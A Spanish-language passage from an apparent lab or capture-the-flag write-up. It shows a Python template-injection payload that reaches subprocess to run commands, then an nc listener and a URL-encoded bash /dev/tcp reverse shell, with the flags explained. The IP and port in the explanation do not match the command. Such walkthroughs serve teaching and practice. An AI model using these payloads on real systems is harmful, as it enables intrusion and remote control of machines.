 >Ya tenemos nuestro Payload, ahora por ultimo, recogemos la salida de todo el proceso con el método communicate() :

```python
' '.__class__.__mro__[1].__subclasses__()[496]('id', shell=True, stdout=-1).communicate()
```

![\1](/Attachments/Pasted%20image%2020250515021156.png)

>TENEMOS RCE :3

>Sin perder mas tiempo, vamos a entablarnos una reverse Shell
>Debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 12345 con “nc”:

![\1](/Attachments/Pasted%20image%2020250515022408.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión1
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 12345

>Ya estando en escucha, insertamos nuestro payload:

![\1](/Attachments/Pasted%20image%2020250515022602.png)

```bash
bash -c "bash -i >%26 /dev/tcp/172.17.0.2/12345 0>%261")
```
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._